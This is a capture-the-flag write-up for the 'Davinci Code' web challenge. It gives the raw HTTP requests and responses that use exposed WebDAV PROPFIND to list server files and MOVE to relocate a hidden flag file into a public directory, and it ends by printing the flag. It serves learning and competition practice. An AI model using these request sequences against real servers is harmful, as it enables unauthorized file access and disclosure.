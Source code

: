 
# Challenge Name: The Davinci Code


![date](https://img.shields.io/badge/date-24.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...  
  
## Detailed solution

![Pasted image 20240525235157](https://github.com/BaadMaro/CTF/assets/72421091/bdc15164-4cab-4981-b054-d33937ac2f19)

The button has the page /code which is a debug data exception with the Werkzeug traceback interpreter.
http://challenge.nahamcon.com:32230/code

Nothing interseted in the page

If we check OPTIONS we can identify some HTTP methods

```http
OPTIONS /code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:54:56 GMT
Content-Type: text/html; charset=utf-8
Allow: PROPFIND, HEAD, OPTIONS, MOVE, GET
Content-Length: 0
Connection: close
```

We got PROPFIND and MOVE. It's used with web DAV, which mentioned in the challenge as DAVinci.

We can get files location with PROPFIND and use MOVE to place the flag in an accessible directory.

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:57:48 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 1108
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/__pycache__</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>__pycache__</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/templates</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>templates</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/app.py</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>app.py</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/static</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>static</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>the_secret_dav_inci_code</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

Secret location /the_secret_dav_inci_code

```http
PROPFIND /the_secret_dav_inci_code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:58:52 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 453
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code/flag.txt</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>flag.txt</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

The flag is located at /the_secret_dav_inci_code/flag.txt

We can move it to the static directory using MOVE method

```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32230
Destination: /static/flag.txt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 204 NO CONTENT
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 23:00:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
```

Let's check the flag http://challenge.nahamcon.com:32230/static/flag.txt

![Pasted image 20240526000206](https://github.com/BaadMaro/CTF/assets/72421091/00324271-5e0a-40d2-9610-f288590e43cf)

## Flag

```
flag{2bc76964262b3a1bbd5bc610c6918438}
```
